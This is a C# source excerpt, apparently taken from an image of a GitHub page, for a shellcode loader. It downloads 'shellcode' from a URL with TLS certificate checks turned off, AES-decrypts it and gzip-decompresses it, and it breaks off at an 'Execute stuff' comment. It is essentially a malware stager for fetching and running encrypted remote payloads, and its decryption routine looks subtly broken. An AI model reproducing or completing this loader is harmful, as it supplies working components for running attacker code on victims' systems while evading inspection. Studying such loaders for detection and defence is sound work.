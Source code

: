```csharp
        private static byte[] AESDecrypt(byte[] ciphertext, string AESKey, string AESIV) {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        // Gzip 
        public static byte[] Decompress(byte[] input)
        {
            using (MemoryStream tmpMs = new MemoryStream())
            {
                using (MemoryStream ms = new MemoryStream(input))
                {
                    GZipStream zip = new GZipStream(ms, CompressionMode.Decompress, true);
                    zip.CopyTo(tmpMs);
                    zip.Close();
                }
                return tmpMs.ToArray();
            }
        }

        public static byte[] Download(string url) {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            return shellcode;
        }

        public static void Execute(byte[] code) {
            List<byte> list = new List<byte> { };   

            for (int i = 16; i <= code.Length -1; i++) {
                list.Add(code[i]);
            }

            byte[] encrypted = list.ToArray();
            
            byte[] decrypted;
            decrypted = AESDecrypt(encrypted, AESKey, AESIV);   // First, AES decrypt

            byte[] decompressed = Decompress(decrypted);        // Second, GZip decompress
            
            // Execute stuff
```